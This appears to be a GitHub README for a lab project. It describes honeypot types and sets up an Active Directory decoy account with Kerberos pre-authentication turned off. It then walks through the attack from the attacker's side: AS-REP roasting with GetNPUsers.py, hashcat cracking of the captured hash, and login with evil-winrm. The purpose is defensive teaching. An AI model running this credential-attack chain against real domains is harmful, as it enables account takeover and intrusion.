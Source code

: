 # Honey Pot

### What is honey pot?

The honey pot is like a trap that's used for detecting if there's an attacker in our network.
It's also helping to understand the attacker's behaviour, so you can know his technique

### honey pot examples

1. **Low-Interaction Honeypots**
These simulate basic services and are easier to deploy and maintain. They are primarily used for early detection of attacks and gathering information about automated threats.

`Honeyd`: A small daemon that creates virtual hosts on a network.
`Kippo`: An SSH honeypot designed to log brute force attacks and the entire shell interaction performed by the attacker.

2. **High-Interaction Honeypots**
These provide a real operating system and services to the attacker, allowing more detailed monitoring of their actions. They are more complex and riskier to manage.

`Dionaea`: Designed to trap malware exploiting vulnerabilities in services.
`Cuckoo Sandbox`: An automated malware analysis system.

3. **Research Honeypots**
These are used by researchers to study and understand the behavior, techniques, and motivations of attackers. They are typically high-interaction honeypots.

`Honeynet Project`: An open-source project that provides tools and resources for deploying and analyzing honeypots and honeynets.

4. **Production Honeypots**
These are deployed within an organization’s network to detect and deflect attacks in real time. They can be either low or high interaction.

`Symantec Deception`: An enterprise solution that uses decoys and lures to detect threats.
`Illusive Networks`: Creates an entire deceptive layer within the network to mislead attackers.

5. **Pure Honeypots**
These are actual systems with no production value other than being used for monitoring and logging the activities of an attacker.

6. **Hybrid Honeypots**
These combine elements of both low and high interaction honeypots to balance between detail and ease of management.

#### Practical Implementations:
`Honeytokens`: These are not actual systems but pieces of data that look like legitimate credentials or files to attract and trap attackers. For example, fake API keys or database credentials.
`T-Pot`: A multi-honeypot platform that integrates several honeypots, visualization, and monitoring tools.
Each type of honeypot serves a different purpose and offers various levels of interaction and complexity to balance the trade-offs between monitoring capabilities and operational risk.

### Honey Pot in our environment
As we have an active directory environment with many users we can create a user account as a trap and it will be our honey pot

Steps:

- Creating the honey pot user account (we will name it ahmed as example)
<img src="/Assets/imgs/create_ahmed.png">

- Add ahmed to `Remote Management Users` group
<img src="/Assets/imgs/add_to_group.png">
This group contains the user accounts that can be accessed using remote management service or tools like `evil-winrm`.
This will make the access of the account for the attacker is easier.

- You can make the account more vulnerable (easier to be attacked than other domain accounts), but don't make it so obvious (The Hacker isn't silly). You can choose the way depending on your point of view, in our example we will make it simple (for learning purpose) and we will remove the `kerberos preauth` for this account, so the attacker can acquire the TGT of the account using `As-repRoasting attack`.
<img src="/Assets/imgs/remove_preauthentication_ahmed.png">
Note: The attacker can get the TGT using this attack or through packet sniffing if he got access to the traffic.
The attacker then can crack the TGT and get the password of the user.
```bash
┌──(youssif㉿youssif)-[/usr/share/doc/python3-impacket/examples]
└─$ ./GetNPUsers.py rift.local/ -usersfile ~/Desktop/users.txt -dc-ip 192.168.2.129
Impacket v0.11.0 - Copyright 2023 Fortra

$krb5asrep$23$ahmed@RIFT.LOCAL:46179071d83bb8c30f60d9fa9e4f5afb$3f52857d2b2e1d5ede62c12817a941f205c33a3d7dbc268ec749c7ae021ecd587d32f67f961794332bbc5ec51f76a6aa77cde907bfbe61c3254bf99b905d1b07b9813b80bf798695df24e781a593afaf919a721e1da5096dc29f955d62b47e6941663b77cb049ecac3b2d2762d7bb4d8ea6ff0e8f8a01d8d70aa045c4db0d4a5c45fe76df9dea25a36fd90eb87c88346b0ba0609235869f8a3f0a05f82e30ff182550d728924f88fb5846e6cd7de909b75d25cf0d58ec7361d0924907b377591184c8cecbf2e7677569425f78ff2786f1e9b47fde50f4901522b4b89c170d9a5f99641a302bd15ca
                                                                                                   
┌──(youssif㉿youssif)-[/usr/share/doc/python3-impacket/examples]
└─$ echo '$krb5asrep$23$ahmed@RIFT.LOCAL:46179071d83bb8c30f60d9fa9e4f5afb$3f52857d2b2e1d5ede62c12817a941f205c33a3d7dbc268ec749c7ae021ecd587d32f67f961794332bbc5ec51f76a6aa77cde907bfbe61c3254bf99b905d1b07b9813b80bf798695df24e781a593afaf919a721e1da5096dc29f955d62b47e6941663b77cb049ecac3b2d2762d7bb4d8ea6ff0e8f8a01d8d70aa045c4db0d4a5c45fe76df9dea25a36fd90eb87c88346b0ba0609235869f8a3f0a05f82e30ff182550d728924f88fb5846e6cd7de909b75d25cf0d58ec7361d0924907b377591184c8cecbf2e7677569425f78ff2786f1e9b47fde50f4901522b4b89c170d9a5f99641a302bd15ca' > ~/Desktop/hash.txt
```
Then the attacker can try cracking the password offline
```bash
┌──(youssif㉿youssif)-[/usr/share/doc/python3-impacket/examples]
└─$ hashcat -m 18200 -a 0 ~/Desktop/hash.txt /usr/share/wordlists/rockyou.txt -O
```
and he got the password `ahmed123`

- The attacker can use this credential to login using `evil-winrm`
<img src="/Assets/imgs/evil-winrm.png">

- congratz, now the hacker fell in out honey pot
